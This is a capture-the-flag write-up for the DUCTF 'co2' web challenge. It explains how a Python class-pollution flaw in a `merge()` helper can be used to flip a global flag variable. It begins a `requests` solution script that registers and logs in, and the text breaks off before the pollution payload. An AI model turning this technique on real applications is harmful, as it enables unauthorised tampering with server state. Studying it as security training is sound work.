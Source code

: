 ## co2

category: web, easy

"A group of students who don't like to do things the "conventional" way decided to come up with a CyberSecurity Blog post. You've been hired to perform an in-depth whitebox test on their web application."

after i sifted through the source code, this comment in `routes.py` looked promising:

```
# Because we want to dynamically grab the data and save it attributes we can merge it and it *should* create those attribs for the object.
```

ok, let's look at the `merge()` method in `utils.py`, which is called right after this sketchy comment.
hmm, i have seen that before... i did not remember the name of this kind of vulnerability though, but with a google search `__getitem__ python vulnerability` i found out again it is called "prototype pollution". one can set e.g. variables or in some cases even call other programs with this kind of vulnerability, depending on the circumstances.

these links helped me a lot to craft the final payload: 

https://blog.abdulrah33m.com/prototype-pollution-in-python/

https://book.hacktricks.xyz/generic-methodologies-and-resources/python/class-pollution-pythons-prototype-pollution

since in `routes.py` there is a global variable in the module which allows us to read the flag, that was the "gotcha":

```python
@app.route("/get_flag")
@login_required
def get_flag():
    if flag == "true":
        return "DUCTF{NOT_THE_REAL_FLAG}"
    else:
        return "Nope"
```

before you could actually call the `save_feedback` endpoint, i had to register and login first, as seen below.

the solution in a script:

```python
import json
import requests

# host of spawned instance, replace with the hostname you need
host = "web-co2-341ba22f64f2d763.2024.ductf.dev"
port = 443

# first we need to register to the site, e.g. with username test1234 and password test1234
with requests.Session() as s:
    payload = {
        'username': 'test1234',
        'password': 'test1234'
    }
    p = s.post(f"https://{host}:{port}/register", data=payload)

# now we need to login with that user and password
with requests.Session() as s:
    payload = {
        'username': 'test1234',
        'password': 'test1234'
    }
```